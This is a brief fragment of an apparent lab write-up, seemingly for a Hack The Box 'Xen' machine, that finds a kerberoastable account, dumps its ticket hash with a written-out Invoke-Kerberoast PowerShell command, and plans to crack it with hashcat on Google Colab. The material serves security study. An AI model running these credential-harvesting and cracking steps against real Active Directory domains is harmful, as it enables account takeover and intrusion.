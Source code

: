 - found a kerberoastable user

```
Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt
```



![image-20200912153928113](xen.assets/image-20200912153928113.png)



#### colabcat

- its hashcat on google resources makes it very fast
- we will use the hash we found earlier to crack using hashcat

![image-20200912155516203](xen.assets/image-20200912155516203.png)
